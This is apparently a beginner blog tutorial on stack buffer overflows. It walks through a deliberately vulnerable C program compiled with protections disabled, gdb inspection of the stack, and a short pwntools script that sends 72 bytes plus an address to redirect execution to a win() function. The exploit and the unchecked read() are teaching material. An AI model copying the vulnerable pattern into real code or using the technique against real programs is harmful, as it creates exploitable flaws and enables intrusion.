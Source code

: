 +++
date = '2025-10-24T14:11:56+05:30'
draft = false
title = 'Buffer Overflows'
+++

# The stack


The stack is a region of memory in the program that keeps track of some important data, each function that is called creates a **stack frame** that contains:

- local variables 
- the saved base pointer (RBP)
- the saved return address pointer (RIP)

The stack is used to abstract away control flow which is similar to a `jmp` instruction, however unlike a jump instruction when a function is called it needs to know where to return. 


This is why the RBP and the RIP are pushed onto the stack.


Once the function is done, the program looks at the saved RIP on the stack and jumps back to the function that originally called it. (The RBP is used to restore the stack back to its original state, kinda)

![stack frame](images/function_frame.png)
[source](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)

The stack grows downwards in memory towards lower address, in the above diagram the **green part represents the main function** and the **blue part represents the function that was called by main**. Notice that the return address resides on the stack along with the variables passed to the function.

Now consider the following scenario:

```
void vuln(){
  char buf[64];
  read(0,buf,128);
}
```

This function tries to read 128 bytes into a 64 byte buffer, C does not have any kinds of check for buffer sizes and this is perfectly valid C code for the compiler. 

In this scenario, the stack allocates 64 bytes for the buffer, but wait the buffer is being written with 128 bytes!
This is a classic buffer overflow that allows you to control the RIP of the program.

# A look at the assembly

We will compile the following C code and look at its disassembly in gdb.

```
#include <stdio.h>
#include <unistd.h>

void win(){
  puts("How did you get here? you win!");
}

void vuln(){
  char buf[64];
  read(0,buf,128);
}

int main(){
  vuln();
}
```

Compile with the following flags in gcc:
```
gcc vuln.c -o vuln -fno-stack-protector -no-pie -z execstack
```

- `-fno-stack-protector` disables the stack canary, which is a mitigation designed to make classic buffer overflows harder, we wont have to worry about that for now.
- `-no-pie`(Position Independant Executable) makes the program load into random memory addresses on each run, we will disable that
- `-z execstack` makes the stack executable, which means that code written to the stack(this could be user input) will be executed.

I have disabled almost every modern protection, but we will eventually learn how to bypass them.

# GDB time
Pro tip:
add this to your `.gdbinit` file in your home directory to save your eyes from looking at horrible AT&T syntax.
```
set disassembly-flavor intel
```


To load the file in gdb 
```
gdb <filename>
```


Once you're in gdb, you can use the `disassemble`(or `disass` for short) to disassemble a function and look at its assembly code.

```
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x000000000040114c <+0>:     push   rbp
   0x000000000040114d <+1>:     mov    rbp,rsp
   0x0000000000401150 <+4>:     sub    rsp,0x40
   0x0000000000401154 <+8>:     lea    rax,[rbp-0x40]
   0x0000000000401158 <+12>:    mov    edx,0x80
   0x000000000040115d <+17>:    mov    rsi,rax
   0x0000000000401160 <+20>:    mov    edi,0x0
   0x0000000000401165 <+25>:    call   0x401040 <read@plt>
   0x000000000040116a <+30>:    nop
   0x000000000040116b <+31>:    leave
   0x000000000040116c <+32>:    ret
End of assembler dump.
```

Let's walk through each instruction, starting with the function prologue and epilogue.

Prologue (setting up the stack)

- `push rbp` - pushes the current base pointer onto the stack
- `mov rbp,rsp` - moves the stack pointer into the base pointer
- `sub rsp,0x40` - make 0x40 bytes of space on the stack for local variables(in this case our buffer)

Epilogue

- `leave` - equivalent to `mov rsp,rbp; pop rbp` , This is the exact opposite of what was done in the prologue.
- `ret` - jump to the address at the top of the stack(which will be our main address that was pushed when it called vuln)



Lets first stop the program once it reaches `read`, give it some input and see the stack in gdb.

```
gef➤  break *vuln+25
Breakpoint 1 at 0x401165
```

This will stop the program at the call to read. To run the program, `run` or `r`

```
gef➤  r
Starting program: /tmp/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Breakpoint 1, 0x0000000000401165 in vuln ()
```

The breakpoint was triggered. Now lets go one instruction after this with `next instruction` or `ni` for short.

The program seems to hang, that's because its waiting for input,type something like `aaaaaaa`

```
gef➤  ni
aaaaaaaa0x000000000040116a in vuln ()
```

Now to examine the stack:
```
x/20gx $rsp
```

This roughly translates to examine 20 (x/20) giant words (gx, 8 bytes) at rsp.

```
gef➤  x/20gx $rsp
0x7fffffffe5a0: 0x6161616161616161      0x0000000000000000 <- our input 
0x7fffffffe5b0: 0x0000000000000000      0x0000000000000000
0x7fffffffe5c0: 0x0000000000000000      0x0000000000000000
0x7fffffffe5d0: 0x0000000000000000      0x0000000000000000
0x7fffffffe5e0: 0x00007fffffffe5f0      0x0000000000401176 <- saved rip
0x7fffffffe5f0: 0x00007fffffffe690      0x00007ffff7c27675
0x7fffffffe600: 0x00007ffff7fc2000      0x00007fffffffe718
0x7fffffffe610: 0x00000001ffffe650      0x000000000040116d
0x7fffffffe620: 0x0000000000000000      0x49393e1f467b5edd
0x7fffffffe630: 0x00007fffffffe718      0x0000000000000001
```

`x6161616161616161` is our input in hex!

Note that the stack is always at a high address, typically `0x7fffff...`. We can also see some stack addresses in the stack. The only address closest that is not a stack address is `401176`.

Examining that address as an instruction:

```
gef➤  x/i 0x0000000000401176
   0x401176 <main+9>:   mov    eax,0x0
```

This is the instruction that is right after the call to vuln, in other words... our return address. The address right before that(0x00007fffffffe5f0) is the saved RBP.

Notice that the stack frame cannot possibly hold 128 bytes of data and that we can overwrite the return address.

Our input starts at `0x7fffffffe5a0` and our saved return address is at `0x7fffffffe5e8`. With some simple maths (I hope), we can deduce that we can overwrite the return address after sending 72 bytes of data.

```
>>> 0x7fffffffe5e8 - 0x7fffffffe5a0
72
```

So we need to send 72 bytes of random data, of course we send "A"*72 and then... Wait what do we send after that? Now that we have control over the instruction pointer, we can make it point to the win function. 

We can get its address by:
```
gef➤  info functions win
All functions matching regular expression "win":

Non-debugging symbols:
0x0000000000401136  win
```

This only works because we disabled PIE earlier.

So our final payload would be 
```
'A'*72 + 0x401136
```

But how do we send the address, we can't exactly type it out...

I would recommend using pwntools but there are other ways to do it:

```
from pwn import *

p = process("./vuln")
payload = b"A"*72 + p64(0x401136)
p.send(payload)
p.interactive()
```

The final result:
```
> python3 exploit.py
[+] Starting local process './vuln': pid 16480
[*] Switching to interactive mode
How did you get here? you win!
[*] Got EOF while reading in interactive
```
